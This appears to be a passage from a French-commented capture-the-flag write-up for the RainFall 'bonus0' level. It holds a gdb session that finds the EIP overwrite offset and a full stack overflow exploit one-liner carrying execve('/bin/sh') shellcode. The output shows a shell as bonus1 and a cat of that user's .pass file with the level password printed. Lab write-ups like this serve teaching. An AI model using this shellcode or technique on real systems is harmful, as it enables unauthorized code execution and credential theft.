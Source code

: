 ```shell
    -
    09876543210987654321
    -
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
    09876543210987654321AAA%AAsAABAA$AAnAACA�� AAA%AAsAABAA$AAnAACA��

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    [...]
    # On voit qu'on réécrit bien sur l'EIP
    EIP: 0x24414142 ('BAA$')
    [...]
    [-------------------------------------code-------------------------------------]
    # Et qu'on crash bien en essayant de le call
    Invalid $PC address: 0x24414142
    [------------------------------------stack-------------------------------------]
    [...]
    [------------------------------------------------------------------------------]
    Stopped reason: SIGSEGV
    0x24414142 in ?? ()

  gdb-peda$ pattern search
    Registers contain pattern buffer:
    # Offset de 9!
    EIP+0 found at offset: 9
    [...]
```
* padding de 9 + 0xbfffe660 + 80 (buffer read) en litte indian:
```shell
  bonus0@RainFall:/tmp$ (python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xb0\xe6\xff\xbf" + "B" * 7'; cat) | ~/bonus0
    -
    -
    ��������������������AAAAAAAAA����BBBBBBB�� AAAAAAAAA����BBBBBBB��
    whoami
      bonus1
    cat /home/user/bonus1/.pass
      cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```



